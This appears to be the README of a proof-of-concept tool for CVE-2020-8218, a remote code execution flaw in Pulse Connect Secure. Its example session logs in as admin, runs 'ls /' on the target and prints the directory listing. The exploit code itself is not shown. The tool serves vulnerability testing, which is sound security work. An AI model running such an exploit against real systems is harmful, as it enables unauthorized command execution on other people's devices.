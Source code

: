 pulse-gosecure-rce.py

Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218).

This tool was built around the POC from the GoSecure advisory (see refs). All credit to them for the finding.

Author:
DK @withdk

Refs:
https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

Example usage:
withdk@hogwarts source % python pulse-gosecure-rce.py -u https://192.168.1.120 --user admin --password mypassword
[*] Successfully logged in
(Cmd) ls /
[*] Sending cmd ls /
[*] Sending exploit...
[*] Getting output...
******************************************
2.6.32.358-x86_64
bin
boot
cgroups
data
dev
etc
home
lib
lib64
modules
opt
pkg
proc
runtime
sbin
sys
tmp
usr
va
var
webserver

******************************************
(Cmd) exit
Bye
[*] Getting logout URL
[*] Sending logout URL
[*] Successfully logged out.
